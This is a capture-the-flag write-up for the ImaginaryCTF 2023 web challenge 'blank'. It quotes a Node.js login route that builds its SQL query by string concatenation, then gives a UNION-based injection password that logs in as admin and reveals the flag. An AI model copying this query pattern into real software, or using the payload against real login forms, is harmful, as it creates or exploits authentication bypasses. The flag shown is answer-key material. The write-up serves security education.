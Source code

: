 ```yaml
---
title: 2023 ImaginaryCTF - blank
date: 2023-07-23 00:00:00 +0700
categories:
  - Write-ups
tags:
  - 2023_imaginaryCTF
  - Web Exploitation
  - SQL injection
---
```


## Overview

* Points: 100

## Description

> I asked ChatGPT to make me a website. It refused to make it vulnerable so I added a little something to make it interesting. I might have forgotten something though...

### Attached

[blank_dist.zip](https://github.com/nqthangcs/CTF-writeups/blob/main/2023/2023_imaginaryctf/attached/blank_dist.zip)

## Analyzation

Check the ```app.js```, these are important lines

```js
app.get('/flag', (req, res) => {
  if (req.session.username == "admin") {
    res.send('Welcome admin. The flag is ' + fs.readFileSync('flag.txt', 'utf8'));
  }
  else if (req.session.loggedIn) {
    res.status(401).send('You must be admin to get the flag.');
  } else {
    res.status(401).send('Unauthorized. Please login first.');
  }
});
```

```js
app.post('/login', (req, res) => {
  const username = req.body.username;
  const password = req.body.password;

  db.get('SELECT * FROM users WHERE username = "' + username + '" and password = "' + password+ '"', (err, row) => {
    if (err) {
      console.error(err);
      res.status(500).send('Error retrieving user');
    } else {
      if (row) {
        req.session.loggedIn = true;
        req.session.username = username;
        res.send('Login successful!');
      } else {
        res.status(401).send('Invalid username or password');
      }
    }
  });
});
```

So, username must be "admin", and we need to bypass the password checker.

## Solution

```
Username = admin 
Password = " UNION SELECT 1337,"junk","junk" -- 
```

Password values can be anything, but UNION requires same argument count and same types (or just NULL values)

The flag is
```
ictf{sqli_too_powerful_9b36140a}

```